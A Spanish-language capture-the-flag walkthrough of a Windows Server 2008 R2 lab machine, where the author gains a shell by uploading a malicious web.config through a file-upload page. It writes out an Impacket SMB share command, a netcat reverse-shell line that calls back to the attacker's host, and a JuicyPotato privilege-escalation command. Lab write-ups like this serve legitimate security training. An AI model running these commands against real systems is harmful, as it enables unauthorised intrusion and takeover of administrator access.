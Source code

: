 Escaneo de puertos:

![](../../../Images/Pasted%20image%2020240924131916.png)

Como es máquina Windows es normal que tenga varios puertos abiertos

Reviso lo que corre en el puerto 80

![](../../../Images/Pasted%20image%2020240924132011.png)

Tengo una imagen sencilla de IIS7

Haré fuzzing web con Gobuster en busca de directorios:

![](../../../Images/Pasted%20image%2020240924132533.png)

Tengo el directorio /zoc.aspx, accederé a él:

![](../../../Images/Pasted%20image%2020240924132636.png)

Es una subida de archivos

Como tengo una subida de archivos subiré un .config para tener un CMD y poder ejecutar comandos, me ayudaré de este archivo: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config

![](../../../Images/Pasted%20image%2020240924135606.png)

![](../../../Images/Pasted%20image%2020240924135624.png)

![](../../../Images/Pasted%20image%2020240924135631.png)

Y listo ya está subido mi archivo .config, ahora lo localizaré para ver donde se subió

Revisando el código fuente de esta página me encuentro con:

![](../../../Images/Pasted%20image%2020240924135739.png)

Accedo a este posible directorio:

![](../../../Images/Pasted%20image%2020240924135808.png)

Pero me aparece que no tengo permisos para ver este directorio, pero igualmente así no tenga permisos sobre este directorio si tengo permisos sobre mi archivo que subí, así que apuntaré hacia mi web.config:

![](../../../Images/Pasted%20image%2020240924135911.png)

Y ahora sí tengo un consola para escribir comandos cmd

Ahora para poder hacer la intrusión a la máquina primero copiaré el nc.exe (que es un binario para poder ejecutar la Shell Inversa) a mi actual directorio:

![](../../../Images/Pasted%20image%2020240924140317.png)

Ahora me levanto un recurso compartido con Impacket para poder enviar este .exe a la máquina:
```
impacket-smbserver $(pwd) recurso -smb2support 
```

![](../../../Images/Pasted%20image%2020240924140901.png)

Ahora accedo a este recurso desde la consola de comandos mientras que al mismo tiempo estoy escuchando con Netcat por el puerto 443:
```
//192.168.1.232/recurso/nc.exe -e cmd 192.168.1.232 443
```

![](../../../Images/Pasted%20image%2020240924141015.png)

![](../../../Images/Pasted%20image%2020240924141032.png)

![](../../../Images/Pasted%20image%2020240924141039.png)

Y listo, ahora estoy dentro de la máquina

Flag de user:

![](../../../Images/Pasted%20image%2020240924141225.png)

## ESCALADA DE PRIVILEGIOS

Observo los privilegios que tengo:

![](../../../Images/Pasted%20image%2020240924141309.png)

Y me llama la atención el "SeImpersonatePrivilege"

Por ende usaré una herramienta llamada JuicyPotato https://github.com/ohpe/juicy-potato

Me descargo el .exe en mi kali:

![](../../../Images/Pasted%20image%2020240924142549.png)

Y lo subiré a la máquina usando el recurso compartido:
```
copy \\192.168.1.232\recurso\JuicyPotato.exe  JuicyPotato.exe
```

![](../../../Images/Pasted%20image%2020240924144829.png)

Ahora subiré una ReverseShell creada con Msfvenom:

![](../../../Images/Pasted%20image%2020240924145053.png)

Y la subo a la máquina usando nuevamente el recurso compartido:

![](../../../Images/Pasted%20image%2020240924145133.png)

Listo ahora teniendo ambos archivos en la máquina veré que versión de windows me estoy enfrentando:

![](../../../Images/Pasted%20image%2020240924150425.png)

Estoy ante un 2008 R2

Busco el CLSID de esta versión, en: https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md  y es:

![](../../../Images/Pasted%20image%2020240924150529.png)

Ahora bien, ejecutaré el JuicyPotato pasándole el shell.exe y el CLSID, y estaré desde mi kali a la escucha con Netcat por el puerto 443:
```
JuicyPotato.exe -l 443 -p shell.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

![](../../../Images/Pasted%20image%2020240924150747.png)

![](../../../Images/Pasted%20image%2020240924150808.png)

Y listo, ahora si soy usuario Administrador

Flag de administrador:

![](../../../Images/Pasted%20image%2020240924150918.png)

